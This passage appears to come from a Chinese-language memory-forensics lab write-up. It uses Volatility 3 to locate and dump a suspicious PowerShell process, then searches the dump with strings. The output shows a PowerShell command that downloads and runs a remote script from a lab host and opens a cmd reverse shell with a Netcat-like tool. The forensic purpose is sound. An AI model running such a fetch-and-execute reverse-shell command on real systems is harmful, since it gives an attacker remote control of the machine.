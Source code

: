 ### 取得記憶體中的惡意片段
前面大致介紹了如何對 memory dump 進行類似 disk forensic 時的慣用分析方式 (Process Explorer、TCPView、Autoruns、Event Viewer)，以下介紹如何將 powershell 記憶體中的可疑內容取出

- #### 在 `windows.pstree` 處找可疑 process
```console
$ python3 ../vol.py -f wmilab.dmp windows.pstree
Volatility 3 Framework 2.0.2
Progress:  100.00               PDB scanning finished
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime

6304	6392	powershell.exe	0xa404dbdb0080	12	-	0	False	2022-04-04 08:00:47.000000 	N/A
* 6296	6304	conhost.exe	0xa404dbdb1080	4	-	0	False	2022-04-04 08:00:47.000000 	N/A
* 5644	6304	cmd.exe	0xa404dcf4a540	1	-	0	False	2022-04-04 08:00:48.000000 	N/A
6976	6392	powershell.exe	0xa404dc308080	12	-	0	False	2022-04-04 08:00:47.000000 	N/A
* 6496	6976	cmd.exe	0xa404dc3ee540	1	-	0	False	2022-04-04 08:00:49.000000 	N/A
* 4908	6976	conhost.exe	0xa404db969080	4	-	0	False	2022-04-04 08:00:47.000000 	N/A
```
此處選用 PID `6304` 的 powershell.exe
- #### 使用 `windows.memmap` dump 出 powershell.exe
```console
$ python3 ../vol.py -f wmilab.dmp windows.memmap --pid 6304 --dump
.
.
0xf8071fc04000	0x11fff5000	0x1000	0x24598000	pid.6304.dmp
0xf8071fc05000	0x11fff4000	0x1000	0x24599000	pid.6304.dmp
0xf8071fc06000	0x46633000	0x1000	0x2459a000	pid.6304.dmp
0xf80721438000	0x5838000	0x5000	0x2459b000	pid.6304.dmp
0xf8072143e000	0x593e000	0x6000	0x245a0000	pid.6304.dmp
0xf80721445000	0x5a55000	0x1000	0x245a6000	pid.6304.dmp
0xf80721446000	0x5866000	0x1000	0x245a7000	pid.6304.dmp
0xf80721447000	0x5947000	0x4000	0x245a8000	pid.6304.dmp
0xf8072144c000	0x584c000	0xe000	0x245ac000	pid.6304.dmp
$ 
```
目錄中會出現 `pid.6304.dmp` 檔案，有點大，可能 400\~600 MB，感覺這作法偏醜，但我沒有更適合的做法，歡迎討論
- #### 使用 `strings` 對 `pid.6304.dmp` 可讀字元篩選關鍵字
```console
$ strings pid.6304.dmp |grep -inE 'chromeupdater'
159:"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:8080/chromeupdater.ps1');chromeupdater -c 192.168.56.1 -p 5566 -e cmd
332:System.Net.Webclient).DownloadString('http://192.168.56.1:8080/chromeupdater.ps1');chromeupdater
2476:System.Net.Webclient).DownloadString('http://192.168.56.1:8080/chromeupdater.ps1');chromeupdater
5858:System.Net.Webclient).DownloadString('http://192.168.56.1:8080/chromeupdater.ps1');chromeupdater
218094:function chromeupdater
218116:chromeupdater - Netcat, The Powershell Version
218117:Github Repository: https://github.com/besimorhino/chromeupdater
218121:Usage: chromeupdater [-c or -l] [-p port] [options]
321771:chromeupdater - Netcat, The Powershell Version
321772:Github Repository: https://github.com/besimorhino/chromeupdater
321776:Usage: chromeupdater [-c or -l] [-p port] [options]
321906:                  chromeupdater, like 'aaaaaa' | chromeupdater -c 10.1.1.1 -p 80
321908:  -o  <type>      Output. Specify how chromeupdater should return information to the console.
321913:  -d              Disconnect. chromeupdater will disconnect after the connection is established
321916:  -rep            Repeater. chromeupdater will continually restart after it is disconnected.
321920:                  chromeupdater with the options you have specified. -i, -d, and -rep will not
```